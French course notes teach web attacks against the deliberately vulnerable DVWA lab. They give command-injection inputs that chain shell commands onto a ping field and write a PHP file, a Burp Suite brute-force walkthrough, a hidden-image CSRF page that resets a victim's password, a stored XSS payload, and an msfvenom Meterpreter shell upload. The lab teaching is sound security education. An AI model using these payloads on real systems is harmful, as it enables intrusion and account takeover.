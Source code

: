 # Vulnérabilités Web

L'ensemble des démonstrations de ce cours utilise une application Web nommée _Damn Vulnerable Web Application_ ou DVWA. C'est une application avec des vulnérabilités pour tester notre habileté à les exploiter.  

## Exécution de commandes  

Certaines applications Web utilisent les commandes du système d'exploitation pour offrir des services aux utilisateurs. Un pirate peut prendre avantage de ces applications pour exécuter des commandes non prévues.

Dans DVWA, aller dans la section _Command Execution_.

![19-command-execution](../images/2020/07/19-command-execution.png)

L'application permet de faire un ping.

si on entre `192.168.40.7` :  

![19-command-execution-ping](../images/2020/07/19-command-execution-ping.png)

Sous Linux, il est possible d'exécuter plusieurs commandes sur la même ligne avec l'opérateur & ou |.

Essayons de voir le contenu du répertoire courant avec `192.168.40.7 & ls -la`

![19-command-execution-ls-la-ampersand](../images/2020/07/19-command-execution-ls-la-ampersand.png)

Essayons de voir le contenu du répertoire courant avec `192.168.40.7 | ls -la`

![19-command-execution-ls-la-pipe](../images/2020/07/19-command-execution-ls-la-pipe.png)

Nous nous trouvons dans quel répertoire? `192.168.40.7 | pwd`

![19-command-execution-pwd](../images/2020/07/19-command-execution-pwd.png)

Quelle version de Linux roule? `192.168.40.7 | uname -a`

Créons une nouvelle page Web :  `192.168.40.7 | echo "<?php echo 'Salut la gang' ?>" > salut.php`

Essayons de voir le contenu du répertoire courant après la création du fichier avec `192.168.40.7 | ls -la`

![19-command-execution-ls-la-apres-salut-php](../images/2020/07/19-command-execution-ls-la-apres-salut-php.png)

Exécutons la nouvelle page :  

![19-command-execution-salut-php](../images/2020/07/19-command-execution-salut-php.png)

### Source de la vulnérabilité

![19-command-execution-source](../images/2020/07/19-command-execution-source.png)

## Attaque avec une force brute  

Certaines application Web sont susceptibles à une attaque par force brute. Pour démontrer comment faire une telle attaque, nous allons utiliser BurpSuite.  

Pour installer BurpSuite :  

`sudo apt install burpsuite` 


1 - Créer un projet temporaire :  

![20-burpsuite-projet-temporaire](../images/2020/07/20-burpsuite-projet-temporaire.png)

2 - Démarrer Burp :  

![20-burpsuite-demarrer-burp](../images/2020/07/20-burpsuite-demarrer-burp.png)


3 - Dans firefox, configurer le proxy :  

![20-firefox-proxy](../images/2020/07/20-firefox-proxy.png)

4 - Dans firefox, accéder à la page de DVWA :

![19-firefox-brute-force](../images/2020/07/19-firefox-brute-force.png)  

5 - Mettre intercept à on dans Burpsuite :  

![20-burpsuite-intercept-on](../images/2020/07/20-burpsuite-intercept-on.png)

6 - Dans firefox, entrer 'user1' et 'pass1' et cliquer sur **login** :  

![19-firefox-login-user1-pass1](../images/2020/07/19-firefox-login-user1-pass1.png)

7 - Dans BurpSuite, sélectionner l'action **send to intruder** :  

![19-burpsuite-send-to-intruder](../images/2020/07/19-burpsuite-send-to-intruder.png)

8 - Sélectionner l'onglet **intruder**, le sous-onglet **position** et changer le type d'attaque pour **cluster bomb** :  

![19-burpsuite-payload-position-attack-type](../images/2020/07/19-burpsuite-payload-position-attack-type.png)

9 - Sélectionner **user1** et **pass1** :  

![19-burpsuite-positions-add](../images/2020/07/19-burpsuite-positions-add.png)

10 - Dans l'onglet payloads, ajouter les codes utilisateurs dans le payload 1 et les mots de passe dans le payload 2 :  

![19-burpsuite-payload-1](../images/2020/07/19-burpsuite-payload-1.png)

![19-burpsuite-payload-2](../images/2020/07/19-burpsuite-payload-2.png)

11 - Dans l'onglet options, ajouter un Grep - Match pour déterminer si l'attaque a réussi ou non :  

![19-burpsuite-option-grep-match](../images/2020/07/19-burpsuite-option-grep-match.png)

12 - Lancer l'attaque :  

![19-burpsuite-start-attack](../images/2020/07/19-burpsuite-start-attack.png)

13 - Résultats de l'attaque, nous avons trouvé 1 mot de passe valide :  

![19-burpsuite-attack-results](../images/2020/07/19-burpsuite-attack-results.png)

## Cross Site Request Forgery (CSRF)  

Avec le CSRF, nous utilisons la session déjà authentifiée d'un utilisateur pour effectuer des actions malicieuses.  

Voici donc une façon d'utiliser la session d'un utilisateur à son insu.  

Créons une page avec le code suivant :  

```
<!DOCTYPE html>
 <head>
  <title>Site malicieux</title>
 </head>
 <body>
  <h1>Rien de malicieux ici, je le jure!</h1>
  <img style="display:none" src="http://192.168.40.14/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=change" alt="">
 </body>
</html>
```

![19-csrf-site-malicieux](../images/2020/11/19-csrf-site-malicieux.png)

En apparence, le site ne semble rien faire de grave. Regardons par contre les accès réseau de la page :  

![19-csrf-site-malicieux-reseau](../images/2020/11/19-csrf-site-malicieux-reseau.png)

La seconde entrée, celle correspondant au tag img, appelle une page de changement de mot de passe de l'application Web. Si l'utilisateur est déjà authentifié, son mot de passe changera pour **hack**.  


## Cross Site Scripting

Les sites Web qui ont du contenu créé par les utilisateurs (par exemple un forum) peuvent permettre l'exécution de code Javascript injecté dans le contenu. De cette manière, un utilisateur malicieux peut exécuter du code sur le poste d'une victime lors de sa visite du site Web.  

1 - Aller sur la page de XSS (stored) dans DVWA :  

![19-XSS-initial](../images/2020/07/19-xss-initial.png)

2 - Écrire le payload dans le message :  

`<script>alert("Bonjour la planète")</script>`  

![19-XSS-script-payload-alert](../images/2020/07/19-xss-script-payload-alert.png)

3 - Résultats :

![19-XSS-alert-results](../images/2020/07/19-xss-alert-results.png)

## Upload  

Si vous pouvez téléverser un fichier sur le serveur, vous pouvez prendre contrôle du serveur.

1 - Créer un fichier avec un payload à l'aide de MSFVenom :  

`msfvenom -p php/meterpreter/bind_tcp lport=4444 -o mp.php`

![19-msfvenom-php-meterpreter](../images/2020/07/19-msfvenom-php-meterpreter.png)

2 - Aller sur la page upload de DVWA et téléverser mp.php :  

![19-file-upload-mp-php](../images/2020/07/19-file-upload-mp-php.png)

3 - Exécuter le fichier mp.php :  

![19-execute-mp-php](../images/2020/07/19-execute-mp-php.png)

4 - Lancer Metasploit avec le multi handler et le bon payload :  

![19-msfconsole-multi-handler-bind-tcp-meterpreter](../images/2020/07/19-msfconsole-multi-handler-bind-tcp-meterpreter.png)  

!!! important  
    Prenez quelques minutes pour faire votre [cartographie](../outils/cartographie.md) de la leçon d'aujourd'hui!   

## Testez vos connaissances  

[Petit quiz sur les vulnérabilités Web](https://forms.office.com/r/Hymgvx9Avb)  
